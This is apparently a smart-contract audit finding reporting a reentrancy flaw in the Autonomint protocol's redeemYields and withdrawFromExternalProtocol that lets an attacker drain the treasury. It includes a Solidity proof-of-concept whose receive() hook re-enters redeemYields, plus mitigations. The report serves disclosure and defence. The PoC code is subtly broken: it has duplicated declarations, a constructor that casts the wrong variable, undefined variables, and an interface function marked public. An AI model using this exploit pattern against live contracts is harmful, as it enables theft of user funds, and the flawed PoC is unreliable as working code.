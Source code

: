 Jumpy Wool Mockingbird

High

# Reentrancy in treasury.withdrawFromExternalProtocol

### Summary

Attacker has to create a bond, when he tries to `reedemYields` is vulnerable to reentrancy, it calls `treasury.withdrawFromExternalProtocol` which triggers `.call` before calling `abond.burnFromUser` allowing the bond to exist and making the reentrancy possible

### Root Cause

In [`BorrowLib.sol`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/lib/BorrowLib.sol#L1032) `abond.burnFromUser` is called after `treasury.withdrawFromExternalProtocol` which is vulnerable to reentrancy which allows an attack to trigger [`redeemYields`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/lib/BorrowLib.sol#L978) as many time as they like, until they drain all funds from treasury

### Internal pre-conditions

1. Attacker has to create a valid bond and wait until it can use `redeemYields`

### External pre-conditions

_No response_

### Attack Path

1. `reedemYields` - with a valid `aBondAmount`
2. Recall `redeemYields` until `Treasury.sol` is drained (can only be done from a contract)

### Impact

Loss of all funds in `Treasury.sol`

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test,StdUtils,console} from "forge-std/Test.sol";
import {BorrowingTest} from "../../contracts/TestContracts/CopyBorrowing.sol";
import {Treasury} from "../../contracts/Core_logic/Treasury.sol";
import {Options} from "../../contracts/Core_logic/Options.sol";
import {MultiSign} from "../../contracts/Core_logic/multiSign.sol";
import {CDSTest} from "../../contracts/TestContracts/CopyCDS.sol";
import {TestUSDaStablecoin} from "../../contracts/TestContracts/CopyUSDa.sol";
import {TestABONDToken} from "../../contracts/TestContracts/Copy_Abond_Token.sol";
import {TestUSDT} from "../../contracts/TestContracts/CopyUsdt.sol";
import {HelperConfig} from "../../scripts/script/HelperConfig.s.sol";
import {DeployBorrowing} from "../../scripts/script/DeployBorrowing.s.sol";
import {IWrappedTokenGatewayV3} from "../../contracts/interface/AaveInterfaces/IWETHGateway.sol";
import {IPoolAddressesProvider} from "../../contracts/interface/AaveInterfaces/IPoolAddressesProvider.sol";
import {ILendingPoolAddressesProvider} from "../../contracts/interface/AaveInterfaces/ILendingPoolAddressesProvider.sol";
import {IPool} from "../../contracts/interface/AaveInterfaces/IPool.sol";
import {State} from "../../contracts/interface/IAbond.sol";
import {IBorrowing} from "../../contracts/interface/IBorrowing.sol";
import {CDSInterface} from "../../contracts/interface/CDSInterface.sol";
import {ITreasury} from "../../contracts/interface/ITreasury.sol";
import {CometMainInterface} from "../../contracts/interface/CometMainInterface.sol";
import {IOptions} from "../../contracts/interface/IOptions.sol";
import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
import { MessagingFee } from "@layerzerolabs/lz-evm-oapp-v2/contracts/oapp/OApp.sol";
import { OptionsBuilder } from "@layerzerolabs/lz-evm-oapp-v2/contracts/oapp/libs/OptionsBuilder.sol";
import {IGlobalVariables} from "../../contracts/interface/IGlobalVariables.sol";
import {IWrsETH} from "../../contracts/interface/IWrsETH.sol";

interface IBorrowLib{
    function redeemYields(
        address user,
        uint128 aBondAmount,
        address usdaAddress,
        address abondAddress,
        address treasuryAddress,
        address borrow
    ) public returns (uint256);
}

contract Exploit is Test{
    DeployBorrowing deployer;
    DeployBorrowing.Contracts contractsA;
    DeployBorrowing.Contracts contractsB;

    DeployBorrowing deployer;
    DeployBorrowing.Contracts contractsA;
    DeployBorrowing.Contracts contractsB;

    address ethUsdPriceFeed;

    address public USER = makeAddr("user");
    address public owner = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;
    address public owner1 = 0x70997970C51812dc3A010C7d01b50e0d17dc79C8;
    address public aTokenAddress = 0x4d5F47FA6A74757f35C14fD3a6Ef8E3C9BC514E8; // 0x4d5F47FA6A74757f35C14fD3a6Ef8E3C9BC514E8;
    address public cometAddress = 0xA17581A9E3356d9A858b789D68B4d866e593aE94; // 0x4Ddc2D193948926D02f9B1fE9e1daa0718270ED5;

    uint256 public ETH_AMOUNT = 1 ether;
    uint256 public STARTING_ETH_BALANCE = 100 ether;
    uint64 public ETH_PRICE = 1000e2;
    uint256 public ETH_VOLATILITY = 50622665;
    using OptionsBuilder for bytes;

    IBorrowLib target;
    address treasury;

    function setUp() public {
        deployer = new DeployBorrowing();
        (contractsA,contractsB) = deployer.run();
        vm.deal(USER,STARTING_ETH_BALANCE);
        vm.deal(owner,STARTING_ETH_BALANCE);
    }

    constructor(address adr, address tr) {
        target = IBorrowLib(target);
        treasury = tr;
    }

    receive() external {
        if(treasury.balance > 0){
            uint256 withdrawAmount = contractsB.borrow.redeemYields(address(USER),uint128(abondBalance));
        }
    }

    function testUserCanRedeemAbond() public {
        vm.startPrank(USER);

        vm.warp(block.timestamp + 2592000);

        contractsB.borrow.calculateCumulativeRate();

        contractsB.usda.mint(address(USER),1000000000);
        uint256 usdaBalance = contractsB.usda.balanceOf(address(USER));

        contractsB.usda.approve(address(contractsB.borrow),usdaBalance);
        contractsB.borrow.withDraw{value:(borrowFee.nativeFee + treasuryFee.nativeFee)}(address(USER),1,99900,uint64(block.timestamp));

        contractsB.borrow.depositTokens{value: (ETH_AMOUNT+cdsFee.nativeFee+borrowFee.nativeFee+treasuryFee.nativeFee)}(
        100000,uint64(block.timestamp),IOptions.StrikePrice.TEN,110000,50622665,ETH_AMOUNT);

        vm.warp(block.timestamp + 2592000);

        contractsB.borrow.calculateCumulativeRate();

        contractsB.usda.mint(address(USER),10000000);

        contractsB.usda.approve(address(contractsB.borrow),contractsB.usda.balanceOf(address(USER)));
        contractsB.borrow.withDraw{value:(borrowFee.nativeFee + treasuryFee.nativeFee)}(address(USER),2,99900,uint64(block.timestamp));

        uint256 aTokenBalance = IERC20(aTokenAddress).balanceOf(address(contractsB.treasury));
        uint256 cETHbalance = CometMainInterface(cometAddress).balanceOf(address(contractsB.treasury));

        uint256 abondBalance = contractsB.abond.balanceOf(address(USER));
        contractsB.abond.approve(address(contractsB.borrow), abondBalance);



        // When redeemYields is called it will trigger a reentrancy in `withdrawFromExternalProtocol` which allows to drain the treasury
        uint256 withdrawAmount = contractsB.borrow.redeemYields(address(USER),uint128(abondBalance));

        assert((aTokenBalance + cETHbalance - withdrawAmount) <= 1e16);

        vm.stopPrank();
    }   
}
```

### Mitigation

Option 1: Add `nonReetrant` to `withdrawFromExternalProtocol`
Option 2: Move [`abond.burnFromUser`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/lib/BorrowLib.sol#L1032) before the [`treasury.withdrawFromExternalProtocol`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/lib/BorrowLib.sol#L1029)